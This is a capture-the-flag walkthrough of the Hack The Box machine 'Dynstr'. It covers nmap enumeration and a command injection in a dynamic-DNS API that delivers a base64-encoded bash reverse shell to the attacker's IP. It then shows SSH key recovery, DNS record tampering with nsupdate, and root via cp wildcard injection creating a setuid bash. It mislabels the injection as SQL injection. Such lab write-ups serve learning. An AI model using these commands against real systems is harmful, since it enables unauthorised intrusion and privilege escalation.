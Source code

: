 permalink: /dyster
layout: post
author: jkr
title: Writeup
date: 2021-10-17
publish: True

description: "Dynstr is a medium difficulty Linux machine featuring a blog providing Dynamic DNS services. The application API is vulnerable to command injection using which a foothold can be gained. Enumerating one of the users folders leaks SSH private key. Updating DNS zone records allows SSH access which helps in lateral movement. By exploiting a wildcard injection in a bash script root access can be obtained.
"


# Enumeration
## Nmap

```bash
sudo nmap -sC -sV -oA nmap/dynstr 10.10.10.244

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS


```

Three ports 
- 22
- 53
- 80

![](/Writeups/Dynster/Pasted image 20211017070917.png)

Ubuntu 20

# FootPath
### Port 80

![](/Writeups/Dynster/Pasted image 20211017070142.png)

![](/Writeups/Dynster/Pasted image 20211017070217.png)

Creds

|Username|Password|
|---|---|
|dynadns| sndanyd|

We are providing dynamic DNS for anyone with the same API as no-ip.com has. Maintaining API conformance helps make clients work properly.


Dynamic DNS for a number of domains:

-   dnsalias.htb
-   dynamicdns.htb
-   no-ip.htb

no-ip API

```
http://username:password@dynupdate.no-ip.com/nic/update?hostname=mytest.example.com&myip=192.0.2.25

```

Port 53

```bash

dig axfr @10.10.10.244 dynstr.htb


; <<>> DiG 9.16.12-Debian <<>> axfr @10.10.10.244 dynstr.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.


```

Checking for zones It didn't work.

Sql Injection in API


```bash
GET /nic/update?hostname=t`echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA%2bJjEK|+base64+-d+|+bash`est.no-ip.htb&myip=10.10.14.48 HTTP/1.1
Host: 10.10.10.244
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close

```

![](/Writeups/Dynster/Pasted image 20211017073334.png)

```bash

## first command Replace ip and port

echo 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1' | base64 

## second command

echo -ne YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA+JjEK| base64 -d | bash

```

![](/Writeups/Dynster/Pasted image 20211017073652.png)

TTY shell

```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
ctrl+z 
stty -raw echo;fg 
return 
export TERM=xterm

```


# User

private_key for bindmgr found at `/home/bindmgr/support-case-C62796521`

![](/Writeups/Dynster/Pasted image 20211017074518.png)

copy to your machine use vim editor to replace new line

```vim

:s/\\n/\r/g

```

sshing using private key is not working.

![](/Writeups/Dynster/Pasted image 20211017075036.png)

Entry is only allowed from a patricular domain `.infra.dyna.htb`

looking at update file at /var/www/html/nic we can our ip to that domain using nsupdate to create new DNS record

```php
www-data@dynstr:/var/www/html/nic$ cat update 
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```


```bash
www-data@dynstr:/var/www/html/nic$ nsupdate -t 1 -k /etc/bind/infra.key 
> ADD aju.infra.dyna.htb 30 IN A 10.10.14.91
> send
> ADD 91.14.10.10.in-addr.arpa 30 IN PTR aju.infra.dyna.htb
> send
```

![](/Writeups/Dynster/Pasted image 20211017084635.png)

# Root

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
	
	```bash
	cp .version * /etc/bind/named.bindmgr/
	```
	
We can exploit cp to get root

Do following

```bash

echo 1 >.version
cp /bin/bash . 
chmod u+s bash 
touch -- '--preserve=mode'

```
	
![](/Writeups/Dynster/Pasted image 20211017085933.png)

